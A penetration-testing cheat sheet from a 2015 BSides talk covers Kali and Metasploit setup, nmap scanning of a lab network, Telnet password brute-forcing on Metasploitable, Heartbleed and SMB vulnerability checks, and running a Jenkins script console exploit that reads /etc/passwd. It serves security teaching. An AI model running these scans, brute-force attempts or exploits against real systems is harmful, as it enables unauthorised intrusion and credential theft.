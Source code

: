 Finding Low Hanging Fruit with Kali
===================================
This cheat sheet was developed to accompany the talk Finding Low Hanging Fruit with Kali, which was presented at [Bsides Nashville](http://bsidesnash.org/) in April 2015.

How to Get Kali
---------------
Kali is available for download at http://kali.org/downloads

Setup Kali for First Use
------------------------
Run `apt-get update` to get the latest package lists.

Run `apt-get upgrade` to install the latest packages.

Some packages may be held back, install those packages using `apt-get dist-upgrade` or `apt-get install <package_name>`.

Use `apt-get autoremove` to remove packages that are no longer needed.

Setup Metasploit for First Use
------------------------------
Start the Postgres and Metasploit services

    service postgresql start
    service metasploit start

To have the Postgres and Metasploit services start up at boot time.

    update-rc.d postgresql enable
    update-rc.d metasploit enable

Unnecessary Services
--------------------
TCP scan against 10.1.1.4-254

    nmap 10.1.1.4-254

UDP scan of top ten ports against 10.1.1.4-254

    nmap -sU --top-ports 10.1.1.4-254

Aggressive scan against 10.1.14-254 and save to an XML file.

    nmap -A -oX local_network.xml 10.1.1.4-254

Import the scan results into Metasploit

    msfconsole
    db_import local_network.xml
    hosts
    services
    services -p 23

Finding Weak Passwords
----------------------
Look at the wordlists in the wordlists folder

    cd /usr/share/wordlists
    ls
    sudo gunzip rockyou.txt.gz

Brute-force the Telnet service on Metasploitable

    use auxiliary/scanner/telnet/telnet_login
    show options
    set USERNAME msfadmin
    set PASS_FILE /usr/share wordlists/fasttrack.txt
    set USER_AS_PASS true
    set BLANK_PASSWORDS true
    services -p 23 -R
    run

Exploitable Vulnerabilities
---------------------------
Find heartbleed vulnerabilities

    nmap -p 443 --script=ssl-heartbleed 10.1.1.4-254

Find SMB vulnerabilities

    nmap --script=smb-check-vulns 10.1.1.4-254  # Unsafe warning
    nmap --script=smb-check-vulns --script-args=unsafe=1 10.1.1.4-254

Web-Based Admin Interfaces
--------------------------
Find the Jenkins interface

    nmap -A -p 80,443,5800,8000,8080 10.1.1.4-254

Once we find Jenkins go to the admin interface and look for the script console.

    proc = [‘cat’, ‘/etc/passwd’].execute()
    println proc.in.txt

Metasploit also has a module for this.

    use exploit/multi/http/jenkins_script_console
    show options
    set RHOST 10.1.1.7
    set RPORT 8080
    set TARGETURI /
    show targets
    set TARGET 1
    exploit

Metasploit has a lot of exploits for web interfaces

    search /http/
